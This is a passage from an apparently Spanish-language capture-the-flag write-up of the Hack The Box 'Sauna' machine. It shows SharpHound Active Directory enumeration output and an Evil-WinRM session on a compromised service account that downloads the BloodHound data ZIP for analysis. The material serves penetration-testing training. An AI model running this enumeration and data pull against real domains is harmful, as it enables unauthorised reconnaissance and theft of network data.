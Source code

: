 ```batch
2024-10-16T20:17:28.9458241-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-10-16T20:17:29.0552087-07:00|INFORMATION|Status: 94 objects finished (+94 1.709091)/s -- Using 42 MB RAM
2024-10-16T20:17:29.0552087-07:00|INFORMATION|Enumeration finished in 00:00:55.1266097
2024-10-16T20:17:29.1489427-07:00|INFORMATION|Saving cache with stats: 53 ID to type mappings.
 53 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-10-16T20:17:29.1645692-07:00|INFORMATION|SharpHound Enumeration Completed at 8:17 PM on 10/16/2024! Happy Graphing!
```

Descarguemos el **archivo ZIP** para que podamos usarlo con **BloodHound**:
```batch
*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents\BrkPrit> download 20241016201728_BloodHound.zip BH-Sauna.zip
                                        
Info: Downloading C:\Users\svc_loanmgr\Documents\BrkPrit\20241016201728_BloodHound.zip to BH-Sauna.zip
                                        
Info: Download successful!
```

Y carguémoslo al **BloodHound**:

<p align="center">
<img src="/assets/images/htb-writeup-sauna/Captura6.png">
</p>

